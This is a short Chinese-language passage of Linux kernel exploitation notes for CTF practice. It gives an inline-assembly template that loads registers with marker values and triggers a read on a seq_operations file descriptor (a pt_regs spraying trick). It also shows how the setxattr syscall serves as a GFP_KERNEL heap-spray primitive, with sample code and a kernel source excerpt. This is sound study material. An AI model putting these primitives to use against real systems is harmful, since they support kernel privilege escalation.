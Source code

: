 若需要在`CTF Linux kernel`中使用，可以使用如下板子：

```c
__asm__(
    "mov r15,   0xbeefdead;"
    "mov r14,   0x11111111;"
    "mov r13,   0x22222222;"
    "mov r12,   0x33333333;"
    "mov rbp,   0x44444444;"
    "mov rbx,   0x55555555;"
    "mov r11,   0x66666666;"
    "mov r10,   0x77777777;"
    "mov r9,    0x88888888;"
    "mov r8,    0x99999999;"
    "xor rax,   rax;"
    "mov rcx,   0xaaaaaaaa;"
    "mov rdx,   8;"
    "mov rsi,   rsp;"
    "mov rdi,   seq_fd;"        // 这里假定通过 seq_operations->stat 来触发
    "syscall"
);
```

## 0x02. setxattr系统调用 GFP_KERNEL

### 介绍

我们可以通过如下方式进行`setxattr`的系统调用:

```c
#include <sys/xattr.h>

setxattr("/exploit", "username", value, size, 0);
```

其中:

- 第一个参数只需要指定一个存在的文件
- 第二个参数随便

该系统调用中, 主要有如下内容:

```c
static long setxattr(struct dentry *d, const char __user *name, const void __user *value,
     size_t size, int flags)
{
    //...
        kvalue = kvmalloc(size, GFP_KERNEL);
        if (!kvalue)
            return -ENOMEM;
        if (copy_from_user(kvalue, value, size)) {

    //,..

    kvfree(kvalue);

    return error;
}
```
